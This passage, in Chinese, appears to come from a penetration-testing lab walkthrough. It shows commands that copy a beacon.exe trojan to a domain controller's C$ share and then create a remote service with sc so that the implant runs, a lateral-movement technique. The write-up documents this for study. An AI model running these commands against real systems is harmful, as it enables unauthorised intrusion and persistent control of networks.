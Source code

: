 ![截图](7a3bf2741ef6bdaa05b6691043333fc5.png)

将beacon.exe复制到域控主机的c盘：

```
shell copy beacon.exe \\192.168.52.138\C$
```

![截图](81e0a6f5dec78e55014595bb25c508f1.png)

### 4.通过IPC创建服务带动木马运行

创建一个服务，服务一旦运行，就会运行c盘下的恶意木马：

```
shell sc \\owa.god.org create test1 binpath= "cmd.exe /c c:\beacon.exe"
```

> 利用 sc 命令行工具 ， 试图在远程计算机 owa.god.org 上创建一个名为 test1 的服务，该服务的功能是执行 c:\beacon.exe。

显示服务创建成功

![截图](96aa20c6dfe32685874e5dd02f9887e5.png)
